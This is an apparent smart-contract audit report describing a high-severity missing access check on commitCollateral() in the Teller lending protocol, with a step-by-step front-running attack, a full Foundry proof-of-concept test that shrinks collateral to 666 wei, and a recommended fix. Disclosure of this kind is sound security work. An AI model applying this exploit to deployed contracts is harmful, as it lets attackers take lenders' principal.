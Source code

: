 dingo

high

# [H-03] Attacker can steal all approved lender's assets without lost of collateral.

## Summary
SC: 

Step by step attack vector:
Let's say borrower(attacker) has `100e18` and lender has `100e18`

1) Attacker submits bid for `50e18` principal and confirm collateral as `100e18`.
2) Attacker call `commitCollateral()` right before lender accept bid (for example frontrun) and change collateral parameters because `commitCollateral()` missed access modifier.
3) Lender accepts bid, principal is going to lender and new amount of collateral going to escrow. (let's say 666 wei).
4) Attacker can do not pay this loan.

## Vulnerability Detail
Foundry test:
1) Create `H-03.t.sol `and run `forge test --match-path tests/TellerV2/H-03.t.sol -vvvv` 
2) Test code:  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "forge-std/Test.sol";
import "../../contracts/TellerV2.sol";
import "../tokens/TestERC20Token.sol";
import "./User.sol";

import "../../contracts/EAS/TellerAS.sol";
import "../../contracts/EAS/TellerASEIP712Verifier.sol";
import "../../contracts/EAS/TellerASRegistry.sol";

import {ReputationManager} from "../../contracts/ReputationManager.sol";
import "../../contracts/CollateralManager.sol";
import "../../contracts/LenderManager.sol";
import {MarketRegistry} from "../../contracts/MarketRegistry.sol";
import "../../contracts/LenderCommitmentForwarder.sol";
import "../../contracts/escrow/CollateralEscrowV1.sol";
import "../../contracts/escrow/CollateralEscrowV1.sol";
import "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";

contract MyTest is Test {

    TellerV2 tellerV2;
    TestERC20Token lendingToken;
    TestERC20Token lendingTokenZeroDecimals;
    User borrower;
    User lender;
    User marketOwner3;
    User receiver;
    User marketOwner;
    User feeRecipient;
    User trustedForwarder;
    MarketRegistry marketRegistry;
    ReputationManager reputationManager;
    CollateralManager collateralManager;
    LenderManager lenderManager;
    LenderCommitmentForwarder lenderCommitmentForwarder;
    CollateralEscrowV1 collateralEscrowV1;
    UpgradeableBeacon upgradeableBeacon;
   
    TellerAS tellerAS;
    TellerASEIP712Verifier tellerASEIP712Verifier;
    TellerASRegistry tellerASRegistry;

    function setUp() public {

        borrower                  = new User();
        lender                    = new User();
        receiver                  = new User();
        marketOwner               = new User();
        feeRecipient              = new User();
        trustedForwarder          = new User(); //~
        tellerV2                  = new TellerV2(address(this)); //trustedForwarder in const
        tellerASEIP712Verifier    = new TellerASEIP712Verifier();
        tellerASRegistry          = new TellerASRegistry();
        tellerAS                  = new TellerAS(tellerASRegistry,tellerASEIP712Verifier);

        marketRegistry            = new MarketRegistry();
        reputationManager         = new ReputationManager();
        collateralManager         = new CollateralManager();
        lenderManager             = new LenderManager(marketRegistry);
        lenderCommitmentForwarder = new LenderCommitmentForwarder(address(tellerV2),address(marketRegistry));
        collateralEscrowV1        = new CollateralEscrowV1();
        upgradeableBeacon         = new UpgradeableBeacon(address(collateralEscrowV1));

        lendingToken             = new TestERC20Token("Wrapped Ether", "WETH", 1e30, 18);
        lendingTokenZeroDecimals = new TestERC20Token(
            "Wrapped Ether",
            "WETH",
            1e16,
            0
        );
        deal({token: address(lendingToken), to: address(lender), give: 100e18});
        deal({token: address(lendingToken), to: address(borrower), give: 100e18});

        vm.prank(address(lender));
        lendingToken.approve(address(tellerV2),100e18);
        vm.prank(address(borrower));
        lendingToken.approve(address(tellerV2),100e18);
        
        reputationManager.initialize(address(tellerV2));
        marketRegistry.initialize(tellerAS);
        collateralManager.initialize(address(upgradeableBeacon),address(tellerV2));
        tellerV2.initialize(
            0,  //_protocolFee
            address(marketRegistry),
            address(reputationManager),
            address(lenderCommitmentForwarder),
            address(collateralManager),
            address(lenderManager)
        );
    }

    function testAttack() public {
        
        vm.startPrank(address(marketOwner));
        marketRegistry.createMarket(
            address(marketOwner),
            30 days, 
            10,       //_paymentDefaultDuration 
            1 days,   //_bidExpirationTime
            0,        //feePercent  <<==Fee is 0
            false,    //lenderAttest
            false,    //borrowerAttest
            "mytestURI"
        );
        vm.stopPrank();

        //Bid with collateral
        Collateral[] memory collateral = new Collateral[](1);
        Collateral memory collateral_1 = Collateral ({
            _collateralType: CollateralType.ERC20,
            _amount: 100e18, //set ollateral here
            _tokenId: 0,
            _collateralAddress: address(lendingToken)
        });
        collateral[0] = collateral_1;
        console.log("===========================BEFORE submitBid======================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Lender manager ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`
        console.log("lender manager address", address(collateralEscrowV1));
        vm.startPrank(address(borrower));
        tellerV2.submitBid(
            address(lendingToken), // lending token
            1, //_marketplaceId
            50e18, // principal
            365 days, // duration
            10_00, // interest rate 
            "", // metadata URI
            address(borrower), // receiver
            collateral
        );
        lendingToken.approve(address(collateralManager),100e18);
        vm.stopPrank();
        
        //changeCollateral in mapping by attacker or any other user (there is no modificator)
        Collateral[] memory collateralFakeArr = new Collateral[](1);
        Collateral memory collateralFakeStruct = Collateral ({
            _collateralType: CollateralType.ERC20,
            _amount: 666, //set new collateral amount
            _tokenId: 0,
            _collateralAddress: address(lendingToken)
        });
        collateralFakeArr[0] = collateralFakeStruct;
        collateralManager.commitCollateral(0,collateralFakeArr); //call it right before lenderAcceptBid

        vm.startPrank(address(lender));
        tellerV2.lenderAcceptBid(0);


        console.log("===========================AFTER lenderAcceptBid====================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Lender manager ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`
        
        vm.warp(block.timestamp+100);
        vm.stopPrank();
        
    }
}
```
Now lender steal principal. Also there is new amount of collateral escrow as `666 wei`.
![image](https://user-images.githubusercontent.com/106747559/233705474-bc10785d-f032-42de-aa60-0a635a35bfd4.png)

## Impact
Lender's principal could be stolen.

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L117

## Tool used
Manual Review

## Recommendation
Add additional requirements regarding access to function `commitCollateral()` like `onlyTellerV2`
